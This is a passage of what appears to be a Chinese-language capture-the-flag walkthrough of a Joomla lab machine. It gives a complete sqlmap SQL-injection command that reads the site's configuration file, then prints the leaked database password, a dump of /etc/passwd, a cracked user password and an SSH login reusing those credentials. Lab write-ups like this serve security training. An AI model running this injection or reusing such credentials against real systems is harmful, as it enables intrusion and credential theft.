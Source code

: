 1 password hash cracked, 0 left


```
question:What is Jonah's cracked password?
answer:spiderman123
```


# 拿到初始shell
# # 测试
sqlmap -u "http://10.10.49.149/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --dbms mysql --technique E --file-read /var/www/html/configuration.php  --batch

# 读取/var/www/html/configuration.php。找到数据库账号密码，外网不可连接
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';


# 读取/etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/my



# 利用 jjameson：nv5uz9r3ZEDzVjNu通过ssh登录系统拿到初始shell
```
┌──(root💀kali)-[~]
└─#  ssh jjameson@10.10.49.149                                                                                                                                                                                                         255 ⨯
The authenticity of host '10.10.49.149 (10.10.49.149)' can't be established.
ECDSA key fingerprint is SHA256:apAdD+3yApa9Kmt7Xum5WFyVFUHZm/dCR/uJyuuCi5g.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.49.149' (ECDSA) to the list of known hosts.
jjameson@10.10.49.149's password: 
Last login: Mon Dec 16 05:14:55 2019 from netwars
[jjameson@dailybugle ~]$ ls
user.txt
[jjameson@dailybugle ~]$ cat user.txt
```